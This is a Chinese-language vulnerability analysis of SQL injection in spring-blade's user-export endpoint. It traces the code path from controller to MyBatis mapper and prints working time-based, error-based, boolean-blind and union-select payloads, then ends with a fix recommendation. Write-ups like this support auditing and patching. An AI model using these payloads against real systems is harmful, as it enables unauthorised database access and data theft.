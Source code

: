 spring-blade SQL注入漏洞
====================

0x01 漏洞描述
---------

在mybatis中，可能造成SQL注入的写法为${，原因如下：

![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-0606cfb88a30bc477551ddaf6b9186cfb6a43d22.jpg)

所以，在mapper.xml中搜索${开头的内容。

![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-3dfc8850033692028fada0e4045366439e9580ef.jpg)

其中，  
${ew.customSqlSegment}  
表示自定义SQL语句，我们往上跟，看这个SQL语句怎么来的。

![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-da854f661adcc0eb74e379f5f432a6e750860008.jpg)

ew参数是一个User类型的Wrapper，看下这个函数在哪里被调用了，于是找到：  
src/main/java/org/springblade/system/user/service/impl/UserServiceImpl.java

![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-44b1d2df589ee4306e80fd2a01358f5af5b13b02.jpg)

往上层找到exportUser的调用。  
src/main/java/org/springblade/system/user/controller/UserController.java

![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-2560554f3e6b2f90568df5a0b0d2642e3177d04b.jpg)

在UserController中将用户输入的数据转化为UserEntity，然后传入的**exportUser**函数。  
调用链如下：

1. 用户输入数据，构建成UserEntity。
2. 将userEntity带入到userService.exportUser中
3. userService.exportUser函数中，将UserEntity又带入到baseMapper.exportUser当中
4. baseMapper.exportUser中根据userEntity构建SQL语句（将userEntity的属性转化到where条件中）。

所以用户可控内容到了SQL语句当中，那么，我们应该怎么利用呢，比如我传入account=admin' ,最后构建的SQL语句为：

```sql
SELECT id, tenant_id, account, name, real_name, email, phone, birthday, role_id, dept_id, post_id FROM blade_user where account=?
```

因为：mybits在处理${ew.coustomSqlSegment}的时候，会将value进行预编译，如下：

![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-75adec5beedd48e2d38d5751251c0c417fd791e6.jpg)

那么该怎么利用呢？ 我们可以观察到account也就是属性名是直接添加到SQL当中的，也是没有被单引号包裹的。所以我们可以传入1-sleep(5)=1，构建出来的userEntity中会有一个1-sleep(1)的属性名，其值为1，然后将userEntity拼接成的SQL语句：

```sql
SELECT id, tenant_id, account, name, real_name, email, phone, birthday, role_id, dept_id, post_id FROM blade_user where 1-sleep(5)=?
```

从而实现注入。我们看效果吧。

![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-83e9328cceafe1bb338b78e9b455b0aa857a9d44.jpg)

延迟18s，主要原因在于SQL语句：

```sql
SELECT id, tenant_id, account, name, real_name, email, phone, birthday, role_id, dept_id, post_id FROM blade_user
```

有6条记录，每条记录都会执行一次sleep(3)

![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-2282ef74f1299985207e29359636e8b039651c22.jpg)

其他利用方式。  
盲注确实有点恼火，比较慢，那么能不能转化成其他的利用方式呢？

- 报错注入：

```php
/api/blade-user/export-user?Blade-Auth=[jwt马赛克]&account=&realName=&1-updatexml(1,concat(0x5c,database(),0x5c),1)=1 
```

![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-5355beb863f36aac1424d525b3c2583ea944a978.jpg)

- 布尔盲注

```php
/api/blade-user/export-user?Blade-Auth=[jwt马赛克] &account=&realName=&1-if(1%3d1,1,0)=1 # false，所以导出的数据为空，excel大小会变小 
```

![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-0107651466b793cc2b0b868a553d1dc59d64da2a.jpg)

```php
/api/blade-user/export-user?Blade-Auth=[jwt马赛克] &account=&realName=&1-if(1%3d2,1,0)=1 # true，所以导出的数据不为空，excel大小会变大 
```

![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-f0de29512f9fe9160a04c24d195ed1e59339c24f.jpg)

- 联合查询

```php
/api/blade-user/export-user?Blade-Auth=[jwt-masaike]&account=&realName=&account+like+?+and+is_deleted%3d?)union+select+1,2,3,user(),5,6,7,8,from_unixtime(1451997924),10,11,12--a=1
```

![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-0b68556d4989d904aa3dc467b39c9c66c7e26f97.jpg)

Payload解析：

![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-1d9743caa9fc210caf41cb9e68c31531e615dd70.jpg)

我们输入-=1的时候，会在where条件后，用括号包裹两个条件，然后产生两个预编译位。所以我们既要闭合括号，又要在注视符前埋下两个预编译位。从而产生初步payload：

```php
account+like+?+and+is_deleted+%3d+?)--+a |
```

然后加入我们的union select

```php
account+like+?+and+is_deleted+%3d+?)union+select+1,2,3,4,5,6,7,8,9,10,11,12--+a 
```

然后报错：

![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-1c3ad6ae7e1596548c26be48ada934fa3943457e.jpg)

数据类型不一致，因为9所在位置是时间戳类型的，所以用mysql的时间戳函数填充到这。

```php
account+like+?+and+is_deleted%3d?)union+select+1,2,3,user(),5,6,7,8,from_unixtime(1451997924),10,11,12--a 
```

![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-dba93a15cdb7f16268d1377ae839140a0c15bbf4.jpg)

导出成功，然后看excel就可以看到user()的执行结果。

![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-6b6071aaaf47cac07a552a0e7f9ea9b849741620.png)

0x02 修复建议
---------

在构建entity时候，判断前端传入的map中是否有entity本身不存在的属性，如果有直接忽略掉，不将其拼接到SQL中。